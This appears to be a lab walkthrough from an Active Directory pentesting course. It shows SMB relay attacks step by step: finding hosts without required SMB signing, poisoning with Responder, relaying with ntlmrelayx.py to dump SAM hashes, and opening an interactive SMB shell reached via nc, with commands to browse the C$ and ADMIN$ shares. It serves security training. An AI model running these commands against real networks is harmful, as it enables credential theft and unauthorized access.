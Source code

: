 
First of all we need to run our nmap scan, to check for the host with **SMB** signing disabled

![](https://i.imgur.com/MlaVrME.jpg)

Now we can save  the host that have the prompt **"message signing enabled but not required"** into a **targets.txt** file

![](https://i.imgur.com/vNu7Yc1.png)

Now we can disable the **HTTP** and **SMB** protocol in the responder.conf file, located under `/etc/responder/Responder.conf`

![](https://i.imgur.com/7mRX0rr.png)

We can then startup `responder` with the syntax used previously in **LLMNR Poisoning** `sudo responder -i wlan0 -dwPv` (v for verbose)

![](https://i.imgur.com/TaJpooZ.png)

Now we can startup the `ntlmrelayx.py` tool wit these syntax `ntlmrelayx.py -tf targets.txt -smb2support` , if you don't have it, you can download it from [here](https://github.com/fortra/impacket/blob/impacket_0_9_19/examples/ntlmrelayx.py) and move it to `/usr/bin` 

> If you are still having problem with ntlmrelayx not working, you can download this [tool](https://github.com/Dewalt-arch/pimpmykali) officially made by the TCM members to fix things

![](https://i.imgur.com/Rdh5Zvu.jpg)

The next thing is for our target, to create an event (We are gonna be utilizing **THE-PUNISHER** VM) , remember the `\\ATACKER-IP`

![](https://dimitrios-tsarouchas.tech/assets/img/DNS-failure-Wrong-address.png)


**_Local SAM hashes have been dumped_**

![](https://i.imgur.com/GCHxNP1.png)



The authentication succeeded because SMB signing is enabled but not required and because “peterparker” is the Administrator on this computer. Therefore, the SAM hashes were able to be dumped. Now the attacker can copy the SAM hashes, try cracking them offline and move laterally or vertically.

***
## **Spawning Reverse Shell**


Same as we did in the previous section, we can simply get an interactive SMB shell by just adding a flag to `ntlmrelayx.py` command

```shell
$ ntlmrelayx.py -tf targets -smb2support -i
```

`-i` will give the interactive shell. After running the command, you will see an output as shown in the image below :


![](https://i.imgur.com/QSh4895.png)


It has successfully exploited and started interactive SMB client shell via TCP on the specified port.

To access the shell, you can simply use `nc` to connect to the host and port using the following command

```
nc 127.0.0.1 11000
```

This will give you the SMB shell as below

![](https://i.imgur.com/00tjm6b.png)


From here, you can interact using the shell and access the files and folders., for example to see the content of these shares we can say

```shell
# shares
# use C$
# use ADMIN$
# use IPC$
```

Then we can do `ls`


![](https://i.imgur.com/M1tuOWf.png)


